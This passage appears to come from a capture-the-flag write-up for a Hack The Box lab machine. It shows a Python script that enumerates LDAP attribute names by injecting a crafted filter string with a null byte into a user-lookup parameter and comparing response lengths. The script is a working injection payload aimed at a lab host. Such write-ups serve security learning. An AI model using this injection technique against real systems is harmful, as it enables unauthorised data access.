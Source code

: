 We get nothing. But if the field DOES exist, we will get something, like we saw in the CN parameter earlier. So that's how we're gonna differentiate between a field *existing* and *not existing*.

I wrote a simple Python script to do this, here is the code:

```python
import string
import requests

paramlist = "/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt"
url = "http://internal.analysis.htb/users/list.php?name=technician)(FUZZ=*))%00"

file = open(paramlist, 'r')
lines = file.readlines()

count = 0
for line in lines:
    if count % 100 == 0:
        print("Count: " + str(count))
    
    # strip newline
    param = line.strip()
    
    payload = url.replace("FUZZ", param)
    res = requests.get(payload)

    if len(res.text) != 406:
        print("   Param: " + param)
    count += 1

```

